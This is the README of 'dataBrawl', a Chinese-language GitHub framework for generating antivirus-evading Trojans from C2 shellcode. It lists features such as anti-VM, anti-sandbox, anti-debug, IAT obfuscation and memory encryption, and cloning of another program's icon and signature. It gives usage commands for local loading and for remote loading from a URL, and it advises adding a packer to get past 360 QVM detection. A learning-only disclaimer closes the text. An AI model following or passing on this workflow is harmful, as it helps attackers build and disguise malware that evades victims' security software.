 # dataBrawl

github:https://github.com/Cherno-x/dataBrawl

**（2024年6月28日注：大型活动期间暂停维护，已删除核心template）**

[![dataBrawl](https://github.com/Cherno-x/dataBrawl/raw/main/assets/dataBrawl.png)](https://github.com/Cherno-x/dataBrawl/blob/main/assets/dataBrawl.png)

一款一键化生成免杀木马的shellcode免杀框架，具备**本地加载**方式和**远程加载**方式。

## Feature



1. 本地/分离加载
2. ollvm混淆编译/gcc编译
3. IAT obfuscate
4. Anti-VM
5. Anti-Sandbox（API Hammering，自定义sleep）
6. Anti-Debug
7. 内存加密
8. add resource/sign

## 环境准备



本工具使用mingw或ollvm编译，ollvm编译无需准备编译环境（生成exe较大，qvm需额外操作）

使用mingw编译需要准备好编译环境，下载mingw编译器：

官网地址：https://www.mingw-w64.org/

Windows下载链接： https://sourceforge.net/projects/mingw-w64/files/

我下载的是x86_64-win32-seh，具体请根据系统情况适配，也可以直接下载online installer

[![image-20240417134130271](https://github.com/Cherno-x/dataBrawl/raw/main/assets/image-20240417134130271.png)](https://github.com/Cherno-x/dataBrawl/blob/main/assets/image-20240417134130271.png)

添加系统环境变量：

path = 解压目录/mingw64/bin

最好把include和lib也对应添加到环境变量的include和lib中，以免编译找不到链接库

## 使用说明



python dataBrawl.py -h

[![image-20240625170435636](https://github.com/Cherno-x/dataBrawl/raw/main/assets/image-20240625170435636.png)](https://github.com/Cherno-x/dataBrawl/blob/main/assets/image-20240625170435636.png)

#### 本地加载shellcode



CS或其他C2生成shellcode

[![image-20240417140327230](https://github.com/Cherno-x/dataBrawl/raw/main/assets/image-20240417140327230.png)](https://github.com/Cherno-x/dataBrawl/blob/main/assets/image-20240417140327230.png)

-i 指复制目标exe的资源、图标和签名信息

```
python dataBrawl.py D:\Dev\dataBrawl\payload_x64.bin -b 1 -t stdtemp -i "C:\Users\xxx"
```



[![image-20240625170651334](https://github.com/Cherno-x/dataBrawl/raw/main/assets/image-20240625170651334.png)](https://github.com/Cherno-x/dataBrawl/blob/main/assets/image-20240625170651334.png)

默认在项目跟目录生成result.exe，也可-o指定输出位置

这里是使用gcc编译，目前qvm未报毒，ollvm编译把-b选项输入2，目前qvm存在问题，可以再加个壳，我这里使用enigma protector ，自己大概选择配置下，qvm都无法拦截。https://down.52pojie.cn/Tools/Packers/The_Enigma_Protector_v7.40_x32_x64.rar 不过qvm比较玄学，可能过两天就报毒了，可以直接ollvm编译+壳。

[![image-20240626110232217](https://github.com/Cherno-x/dataBrawl/raw/main/assets/image-20240626110232217.png)](https://github.com/Cherno-x/dataBrawl/blob/main/assets/image-20240626110232217.png)

使用ollvm加壳后如果还杀，就改一下加壳的选项。

#### 远程加载shellcode



先生成加密shellcode

```
python dataBrawl.py D:\Dev\dataBrawl\payload_x64.bin -c 1 -t remote
```



使用远程模板生成木马

```
python dataBrawl.py http://www.xxx.com/shellcode.bin -b 1 -t remote -i "C:\Users\xxx"
```



# ⚠️ Warning



**免责声明:** 请注意，本仓库仅用于学习和研究目的。在使用任何与恶意软件开发相关的技术时，请遵守当地法律法规，不要进行任何违法活动。对于任何不当使用造成的后果，本仓库的维护者不承担任何责任。

欢迎提出建议、报告漏洞或贡献代码以改进本仓库的内容。让我们共同努力，提高网络安全意识和技术水平！